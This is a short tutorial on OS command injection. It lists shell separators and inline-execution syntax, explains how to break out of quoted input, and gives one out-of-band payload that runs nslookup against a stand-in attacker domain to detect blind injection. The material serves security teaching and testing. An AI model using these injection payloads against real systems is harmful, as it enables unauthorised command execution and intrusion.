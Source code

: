 ## Command Injection 

<h3> Ways of injecting OS commands </h3>

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

    &
    &&
    |
    ||

The following command separators work only on Unix-based systems:

    ;
    Newline (0x0a or \n)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

    `
    injected command `
    $(
    injected command )

Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 

<h3> Exploiting blind OS command injection using out-of-band (OAST) techniques </h3>

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:
& nslookup kgji2ohoyw.web-attacker.com &

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected. 
